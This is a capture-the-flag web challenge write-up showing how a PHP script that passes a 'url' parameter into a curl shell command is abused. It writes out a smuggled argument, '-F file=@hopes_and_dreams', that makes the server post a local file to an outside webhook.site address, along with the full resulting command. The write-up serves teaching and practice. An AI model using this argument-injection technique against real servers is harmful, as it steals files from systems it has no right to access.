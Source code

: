 The PHP code checks if a POST request is made with a ‘url’ parameter (The web challenge itself told us to input url). Then it sanitizes the blacklist character. After sanitization, it constructs a command using curl to fetch the URL and then pipes the output to grep to extract the HTTP status code. The vulnerability is here in the way the URL is sanitized and then used in a shell command.

In PHP, you can use the file:// protocol to read local files. So theoretically, we can get the curl command to access **`file:///path/to/hopes_and_dreams`**. Then the command would be **`curl -s -D - -o /dev/null file:///hopes_and_dreams | grep`**. When curl accesses a local file, it doesn't return HTTP headers, which are required for the grep command to extract the status code. That’s why the command is using -D - to output the headers to stdout, and -o /dev/null to discard the body. So, when accessing a local file, curl would output the headers (if any) and then the body is discarded. But for a local file, there are no HTTP headers, so maybe curl doesn't output anything, and the grep command would not find anything. Because the PHP code is expecting an HTTP response code, but when accessing a local file, there's no HTTP status code.

Command injection doesn’t work because of the blacklist moreover the PHP\_EOL. Accessing the file via **http://104.214.185.119/index.php/hopes\_and\_dreams** then the HTTP status code would be 200 would only return a status code, not the file contents.

So because of all of that, I decided instead of reading the file, I’m downloading the file. We can use the -F option in curl to send a form with the file contents and even send POST request. So we would see the status code (e.g., HTTP/1.1 200 OK), but the file contents would be sent to the webhook.

The script constructs the shell command as follows:

```bash
$command = "curl -s -D - -o /dev/null " . $sanitized_url . " | grep -oP '^HTTP.+[0-9]{3}'";
```

Using

`http://webhook.site/0b45cb78-5dcf-4877-8044-7e8a3ff05fb9 -F file=@hopes_and_dreams`

Substituting the value of **$sanitized\_url**, the command becomes:

`curl -s -D - -o /dev/null http://webhook.site/... -F file=@hopes_and_dreams | grep -oP '^HTTP.+[0-9]{3}'`

This would send the file contents as a form field to the webhook. The -F option tells curl to send a multipart form with the file contents. The @ symbol in @hopes\_and\_dreams tells curl to read the file.

### Straightforward <a href="#toc195398755" id="toc195398755"></a>
